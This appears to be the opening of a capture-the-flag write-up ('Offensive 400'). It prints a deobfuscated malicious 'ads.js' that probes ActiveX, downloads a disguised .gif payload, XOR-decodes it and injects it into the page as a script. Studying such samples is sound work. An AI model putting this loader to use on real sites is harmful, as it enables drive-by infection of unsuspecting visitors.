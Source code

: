 ## Offensive 400 (Offensive, 400p)
	
###ENG
[PL](#pl-version)

Challenge starts on webpage which doesn't contain anything (or it looks like this). But after looking at the source code we spot interesting javacript file (named "ads.js"). After deobfuscation it looked like this:


```javascript
var mnt = function() {
	window.host = location.host;
	window.scheme = 'http://';
	window.getLicenseUrl = function() {
		console.log('getting lic url')
		var ax = document.getElementsByTagName('img');
		for (var i = 0; i < ax.length; i++) {
			if (-1 < ax[i].src.indexOf(host)) {
				return "http://" + host + "/images/creature.html?adv=900485&o=7927932&m=844431838&creature=629999&yf=INfzIJzt9bRSOkjD&click=${CLICK_URL_ENC}&type=js&pub=openxnat_1569894390&ord=1450370740864";
			}
		}
	};
	callbackOnLoad = function() {
		console.log('callback');
		var ax = xtr.responseText,
			mn = '/1/',
			cm = '%';
		var data = unescape(ax.substr(3 + ax.indexOf(mn)).replace(/[\S]{3}/g, function(b) {
			return cm + String.fromCharCode(b.charCodeAt(1) ^ ((scheme.length+1) * 6)) + b[2];
		}));
		var sta = document.createElement('sc' + 'rip' + 't');
		sta.innerHTML = data;
		document.body.appendChild(sta);
	};
	licenseRequest = function(command) {
		try {
			console.log('lic request');
			new ActiveXObject(command).GetLicenseFromURL([], getLicenseUrl().replace(scheme, 'http://'))
		} catch (et) {
			return et.number + ''
		}
	};
	suspicious = function() {
		with (xtr = (window.XDomainRequest && (new XDomainRequest) || (new XMLHttpRequest)))
			open('get', scheme + host + '/images/9J2bkcUJHUTTnOmcd56DXVmz.gif' + '?t=' + (new Date).getTime() + '&id=M8XIgp9526a9'), onload = callbackOnLoad, send()
	};
	document.security && 1 && suspicious();
};
mnt();
```

